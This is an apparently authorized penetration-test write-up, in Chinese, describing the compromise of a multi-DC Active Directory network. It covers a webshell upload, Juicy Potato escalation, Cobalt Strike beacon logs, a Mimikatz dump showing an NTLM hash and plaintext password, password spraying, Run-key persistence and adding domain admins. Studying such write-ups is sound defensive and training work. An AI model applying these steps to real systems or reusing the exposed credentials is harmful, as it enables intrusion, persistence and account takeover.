# 奇安信攻防社区-关于某次授权的大型内网渗透测试

### 关于某次授权的大型内网渗透测试

接到朋友邀请，要对一个站点进行全面渗透，内网发现多DC主机，遂记录。

# 背景：

接到朋友邀请，要进行一个授权站点的渗透，但是进去实际环境才发现是多域控主机。也学习了很多后渗透手法，比较受益匪浅。

# 前期渗透：

### 打点：（任意文件上传）

直接发现头像处任意文件上传，这里直接上传冰蝎即可。





##### tasklist查看杀软

```php

System Idle Process              0 N/A                                         
System                           4 N/A                                         
smss.exe                       240 N/A                                         
csrss.exe                      376 N/A                                         
wininit.exe                    436 N/A                                         
services.exe                   524 N/A                                         
lsass.exe                      532 Kdc, KeyIso, Netlogon, NTDS, SamSs          
svchost.exe                    672 BrokerInfrastructure, DcomLaunch, LSM,      
                                   PlugPlay, Power, SystemEventsBroker         
svchost.exe                    716 RpcEptMapper, RpcSs                         
WRSA.exe                       820 WRSVC                                       
svchost.exe                    276 Dhcp, EventLog, lmhosts, Wcmsvc             
svchost.exe                    320 Appinfo, BITS, CertPropSvc, gpsvc, IAS,     
                                   IKEEXT, iphlpsvc, LanmanServer, ProfSvc,    
                                   Schedule, seclogon, SENS, SessionEnv,       
                                   ShellHWDetection, Themes, Winmgmt           
svchost.exe                    516 EventSystem, FontCache, netprofm, nsi,      
                                   W32Time, WinHttpAutoProxySvc                
svchost.exe                    932 CryptSvc, Dnscache, LanmanWorkstation,      
                                   NlaSvc, WinRM                               
svchost.exe                   1100 BFE, DPS, MpsSvc                            
spoolsv.exe                   1508 Spooler                                     
Microsoft.ActiveDirectory     1540 ADWS                                        
OfficeClickToRun.exe          1792 ClickToRunSvc                               
svchost.exe                   1844 ddpvssvc                                    
dfsrs.exe                     1892 DFSR                                        
svchost.exe                   1908 DHCPServer                                  
svchost.exe                   1936 DiagTrack                                   
dns.exe                       1980 DNS                                         
fmaonsite.exe                 2024 FMAuditOnsite                               
ismserv.exe                   1340 IsmServ                                     
Microsoft.BDD.MonitorServ     1432 MDT_Monitor                                 
MSOIDSVC.EXE                  2660 msoidsvc                                    
svchost.exe                   2328 Net Driver HPZ12                            
OpenDNSAuditService.exe       2220 OpenDNS Active Directory Service            
MSOIDSVCM.EXE                 1256 N/A                                         
svchost.exe                   2172 Pml Driver HPZ12                   
ScreenConnect.ClientServi      556 ScreenConnect Client (62c0d7e1d3b94bc5)     
svchost.exe                   1472 TermService                                 
OpenDNSAuditClient.exe        2924 N/A                                         
conhost.exe                   1380 N/A                                         
VGAuthService.exe             2096 VGAuthService                               
vmtoolsd.exe                   612 VMTools                                     
WRCoreService.x64.exe         2136 WRCoreService                               
WRSkyClient.x64.exe           3180 WRSkyClient                                 
dfssvc.exe                    3316 Dfs                                         
WmiPrvSE.exe                  3484 N/A                                         
svchost.exe                   3568 UALSVC, UmRdpService                        
VeeamDeploymentSvc.exe        3612 VeeamDeploySvc                              
WRSvcMetrics.x64.exe          3580 N/A                                         
svchost.exe                   4216 PolicyAgent                                 
msdtc.exe                     4160 MSDTC                                       
DCA.Edge.Console.exe          3676 DCAPulse                                    
iashost.exe                   4548 N/A                                         
wsmprovhost.exe               9104 N/A                                         
powershell.exe                7828 N/A                                         
conhost.exe                   6688 N/A                                         
powershell.exe                 360 N/A                                         
conhost.exe                   5152 N/A                                         
notepad.exe                   1760 N/A                                         
LTSvcMon.exe                  5424 LTSvcMon                                    
LTSVC.exe                     7272 LTService                                   
labvnc.exe                    5412 tvnserver                                   
Veeam.EndPoint.Service.ex     8316 VeeamEndpointBackupSvc                      
wsmprovhost.exe               7108 N/A                                         
ScreenConnect.WindowsBack     4384 N/A                                         
csrss.exe                     7564 N/A                                         
winlogon.exe                  5520 N/A                                         
dwm.exe                       6572 N/A                                         
labvnc.exe                    5916 N/A                                         
taskhostex.exe                8540 N/A                                         
WRSA.exe                      2308 N/A                                         
ScreenConnect.WindowsClie     3732 N/A                                         
explorer.exe                  3964 N/A                                         
MRT.exe                       4852 N/A                                         
vm3dservice.exe               2656 N/A                                         
MRT.exe                       5196 N/A                                         
vmtoolsd.exe                  5340 N/A                                         
DCA.Edge.TrayIcon.exe         6432 N/A                                         
LTTray.exe                    4564 N/A                                         
WmiPrvSE.exe                  6336 N/A                                         
Taskmgr.exe                   6684 N/A                                         
LogonUI.exe                    380 N/A                                         
cmd.exe                       2400 N/A                                         
conhost.exe                   6216 N/A                                         
net.exe                       8100 N/A                                         
net1.exe                      8908 N/A                                         
cmd.exe                       2956 N/A                                         
conhost.exe                   8300 N/A                                         
net.exe                       7344 N/A                                         
net1.exe                      5248 N/A                                         
cmd.exe                        432 N/A                                         
conhost.exe                   9052 N/A                                         
net.exe                       7356 N/A                                         
net1.exe                      3156 N/A                                         
cmd.exe                       8232 N/A                                         
conhost.exe                   4600 N/A                                         
net.exe                       5528 N/A                                         
net1.exe                      7352 N/A                                         
cmd.exe                       4304 N/A                                         
conhost.exe                   7148 N/A                                         
vds.exe                       3872 vds                                         
cmd.exe                       7716 N/A                                         
conhost.exe                   8564 N/A                                         
tasklist.exe                  9212 N/A   
```


# 内网渗透：

##### 边缘机的systeminfo

因为前期拿到了边缘机，这里查看systeminfo,发现是2012R2的主机。



##### 边缘机提权：（利用烂土豆直接提上权限）

  
提权之后做进程迁移，直接把进程迁移到lsass进程中去。



### 内网信息收集：

##### 先查看ip，看是否存在双网卡机

```php
Windows IP Configuration

   Host Name . . . . . . . . . . . . : CAMS-SQL3
   Primary Dns Suffix  . . . . . . . : AVV.org
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : AVV.org

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-98-E3-D6
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::a5b1:d534:730:3123%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.2.0.49(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
```

##### 进行域管理员和域控的查看：

###### 域控：

net group "domain controllers" /domain

```php
[04/26 18:16:59] beacon> shell net group "domain Controllers" /domain
[04/26 18:17:00] [*] Tasked beacon to run: net group "domain Controllers" /domain
[04/26 18:17:00] [+] host called home, sent: 69 bytes
[04/26 18:17:00] [+] received output:
The request will be processed at a domain controller for domain FPC.LOCAL.

Group name     Domain Controllers
Comment        All domain controllers in the domain

Members

-------------------------------------------------------------------------------
AVV-DC1$                 AVV-DC2$                 AVV-DHDC01$              
AVV-DHDC02$                    
```

###### 域管：

net group "domain admins" /domain

```php
fpcadmin                 mqd.ns          
mqd.rmm                  mqd.tdv  
```

###### 前直接归属的域控和主域控：

net time /domain

```php
[04/26 18:27:52] beacon> shell net time /domain
[04/26 18:27:52] [*] Tasked beacon to run: net time /domain
[04/26 18:27:52] [+] host called home, sent: 47 bytes
[04/26 18:27:54] [+] received output:
Current time at \\AVV-DC2.FPC.LOCAL is 4/26/2023 5:27:53 AM
```

可以发现当前是直接被DC2所归属，这里查下主控制器。这里直接使用CS插件来进行渗透

```php
[04/26 18:31:11] [+] =========== 查看主域控制器 ==========
[04/26 18:31:12] [*] Tasked beacon to run: netdom query pdc
[04/26 18:31:12] [+] host called home, sent: 47 bytes
[04/26 18:31:14] [+] received output:
Primary domain controller for the domain:

AVV-DC1
The command completed successfully.
```

###### 定位域控的IP地址：

这里经过ping之后发现，域控不是都在同一个网段，应该是如下的结构。



##### 内网存活主机探测：

我先进行了DC段和本机段存活主机的探测，这里直接利用cs的插件（portscan）

```php
portscan 10.2.0.0/24
portscan 10.2.92.30/24
portscan 10.6.0.10/24
portscan 10.11.1.12/24
```



###### fscan扫描本机C段：

潦草的扫描到了ftp的匿名登陆，没有扫描到其他有用信息。这里就不放其他几个段的截图，都没扫描到啥有用的信息。



##### 做hashdump：

这里直接做完hashdump之后发现

```php
msv :   
     [00000003] Primary
     * Username : mqd.tdv 
     * Domain   : FPC
     * NTLM     : 7007ebae678042f1cf112578ac43bf68
     * SHA1     : 712ce4bf3a4a777582389d37f8d06158ed204f6b
    tspkg : 
    wdigest :   
     * Username : mqd.tdv 
     * Domain   : FPC
     * Password : QWE123456QE!@#
    kerberos :  
     * Username : mts.tdv
     * Domain   : FPC
     * Password : QWE123456QE!@#
    ssp :   
    credman :   
```

# 内网横向（因为自己失误造成了比较繁琐的过程）

因为前期已经看到了域管的账号就是mqd.tdv，这里直接做密码喷洒，这里转到msf中看下。上线了如此多的主机，同时，DC2子域控也进行了上线

### 第一天上线的主机：(MSF上)



#### CS上：（上线74台）



### 小插曲：

因为渗透到域控的时候，在半夜2点半，所以在拿到DC2的权限的时候，就直接关掉电脑睡觉啦，没有进行留后门和做进程注入，导致第二天上线的时候执行命令出现如下界面。

  
这里的意思就是启动新进程的时候，系统无法将当前进程的令牌传递给新进程。也就是无法创建进程，所以只能通过其他方式来进行横向渗透。并且后期发现该域管理员密码已经进行修改。

### DC挂掉之后的想到的几种方式：

#### （1）抓去已控主机的hash看是否有其他域管登陆（失败）

```php
因为前面已经拿到了100多台机子的权限，所以能想到的第一个思路就是把100多台主机上的hash都进行一个抓起取，然后看是否可以抓到域管的账号，但是这里抓完之后会发现，没有一台域管是上线的，所以这里也比较无语。
```

#### （2）利用CVE漏洞来进行横向（失败）

```php
因为之前探测到DC的版本是windows2012 R2版本，所以想到了用ms17-010来进行内网横向，但是这里经过检测之后发现也没有ms17-010的漏洞，所以无法进行横向
```

#### （3）利用CVE漏洞来子域控（CVE-2020-1472）（失败）

```php
这里经过尝试CVE-2020-1472漏洞，也没有发现可以横向上去，通过poc检测发现是fail的。
```

#### （4）尝试攻击exchange服务器，来中继攻陷主机（失败）

这里就不放细节了，均以失败告终。

### 峰回路转：（DC2子域控上线）

#### DC2子域控上线过程：

这里经过一天的折磨之后发现，以上的几种方式不好使，但是想到了抓取机器用户的hash，通过构造密码表，来进行域管的密码喷洒，这里抓取了100多个的机器用户和几个域内用户做成密码表，重新进行内网横向。

这里截图部分域内用户，做成密码表后直接进行喷洒，发现域管成功上线。







#### DC2子域权限维持：

```php
（1）把当前进程注入到lsass进程中去。
（2）reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "start" /d "C:\Windows\Temp\start.exe"  //开机自启动
（3）添加域管理员，因为已经拿到域管理员的权限，所以可以添加域管理员，来进行权限维持（这里直接通过lstar的插件来进行域管理员的添加）
```

### 其他域控上线

这里也是一个小Tip，也是提供给大家的一个思路

在有权限的情况下，可以添加域管理员，然后通过域管理员来进行横向其他域控（这是仅限于一个域），但是上面给出来了结构，这个域都是在一个域内的，所以的话，就可以进行添加管理员来上线。这里直接放后期上线的域控。



# 总结：

经过这次实战总结了很多小的技巧。

```php
（1）可以通过添加域管理员来上线域内的所有主机
（2）可以通过cs来进行进程注入or进程迁移，来实现本机system权限的获取
（3）此次实战的密码喷洒尤为重要，所以有机器用户的hash一定要进行抓取
（4）SPN服务横向可以通过打邮服来进行获取域控权限
（5）学习了权限维持的方法（开机自启动、winrm的横向和psexec的横向）

恶补了一大波内网知识（比靶场来的实在）
```

不足之处：

```php
（1）此次通过内网渗透，虽然打了邮件服务器，但是没有通过邮件服务器来拿下DC的权限。
（2）没有通过SPN票据横向拿下对应的服务器，比如MSSQL的和CIFS的
（3）此次没有利用白银票据进行横向（得重新学习）
```
